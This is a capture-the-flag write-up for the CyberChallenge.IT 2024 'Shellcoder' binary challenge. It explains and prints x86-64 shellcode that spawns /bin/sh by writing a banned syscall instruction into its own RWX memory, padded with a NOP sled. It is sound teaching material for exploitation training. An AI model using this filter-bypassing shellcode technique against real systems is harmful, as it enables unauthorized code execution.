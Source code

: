 # CyberChallenge.IT 2024 - University CTF

## [binary] Shellcoder (31 solves)

Show me your skills.

`nc shellcoder.challs.external.open.ecsc2024.it 38201`

Author: Giulia Martino <@Giulia>

## Overview

This is a shellcoding challenge. The challenge starts by `mmap`ing a region of memory as RWX at a fixed address `0xbeef0000`, which will be used to store the user provided shellcode. The shellcode cannot contain any syscall-like instruction. Before jumping inside the shellcode memory area, the challenge zeroes out all the registers.

## Solution

Considering the flag is on the filesystem, the easiest way to solve this challenge is by spwning a shell and then read the flag. A possible way consists in executing the syscall `execve(addr of /bin/sh, 0x0, 0x0)`. This means we need to:

1. set `rax` to 0x3b (`execve` syscall number)
2. set `rdi` to the address of the string `/bin/sh\x00` (`cmd` parameter)
3. set `rsi` to 0x0 (`argv` parameter)
4. set `rdx` to 0x0 (`envp` parameter)
5. execute a `syscall` instruction

The first 3 requirements are very straightforward to obtain with simple assembly instructions:

```asm
    mov rax, 0x3b;
    xor rsi, rsi;
    xor rdx, rdx;
```

To get the 4th requirement, we can place the `/bin/sh\x00` string at a fixed position in the shellcode itself; considering we know where the shellcode will be stored in memory, we also know where the `/bin/sh\x00` string will be. For example, we can place it `0x100` bytes after the start of the shellcode, and set `rdi = 0xbeef0100`.

```asm
    mov rdi, 0xbeef0100;
```

We're only missing a syscall instruction, which we cannot directly put in the shellcode because it is banned by the challenge. But we can easily workaround this issue because the region where the shellcode is stored is `mmap`ped as RWX, which means we can build a shellcode which writes the syscall instruction inside itself. So the finall shellcode is:

```python
shellcode = f"""
    mov rax, 0x3b;
    xor rsi, rsi;
    xor rdx, rdx;
    mov rdi, 0xbeef0100;
    mov r10, 0xbeef0032;
    mov r11, 0x0500;
    add r11, 0x0f;
    mov qword ptr [r10], r11;
"""
shellcode = asm(shellcode)
shellcode += b"\x90" * (0x100 - len(shellcode)) + b"/bin/sh\x00"
```

where the last four instructions are setting `r11` equal to the bytes corresponding to a syscall instruction (consider little endian) and then are moving those values at the address `0xbeef0032`. The shellcode is padded with a lot of NOP instructions (`\x90`), so the `syscall` instruction ends up in the middle of the NOP sled.

## Exploit

Take a look at the full exploit [here](checker/__main__.py).

